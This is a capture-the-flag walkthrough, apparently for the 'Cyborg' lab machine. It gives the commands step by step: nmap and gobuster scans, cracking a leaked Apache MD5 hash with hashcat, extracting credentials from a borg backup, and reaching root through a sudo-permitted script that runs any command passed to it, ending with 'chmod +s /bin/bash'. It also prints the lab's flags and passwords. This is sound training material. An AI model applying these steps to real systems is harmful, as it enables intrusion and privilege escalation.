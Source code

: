 # cyborg

```
export IP=10.10.106.14
```

## Nmap scan
nmap -v -sC -sV -oN scans/initial $IP
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

# Task 2


### Scan the machine, how many ports are open?

Answer:2


### What service is running on port 22?

Answer:ssh


### What service is running on port 80?

Answer:http

### What is the user.txt flag?

gobuster dir -u $IP -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t 100 -q -o scans/gobuster-small.txt

```
/admin                (Status: 301) [Size: 312] [--> http://10.10.106.14/admin/]
/etc                  (Status: 301) [Size: 310] [--> http://10.10.106.14/etc/]  
```

/etc/ --> username:squid pwd:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.

hash-identifier $apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn. 

```
Possible Hashs:
[+] MD5(APR)
```

hashcat -v -m 1600 ./md5.hash /opt/rockyou.txt 

$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.:squidward

download archive.tar from /admin/

tar -xvf archive.tar 

borg extract ./home/field/dev/final_archive::music_archive

GOTO home/alex/Documents

alex:S3cretP@s3

ssh alex@10.10.106.14

cat user.txt

```
flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}
```

### What is the root.txt flag?

sudo -l -> sudo permissions shows us the privilege to run a shell script as root

As this looks like a simple script to compress a bunch of mp3 files in an archive we notice two parts

```	
while getopts c: flag
do
    case "${flag}" in
        c) command=${OPTARG};;
    esac
done
 
...
 
cmd=$($command)
echo $cmd

```
We can add an argument (-c) to the script. The output of the command will be passed to the $cmd variable it it's getting echo'ed. So lets get that root flag with

sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"

```
flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}
```
To compromise the system run:

sudo /etc/mp3backups/backup.sh -c "chmod +s /bin/bash"

Answer:


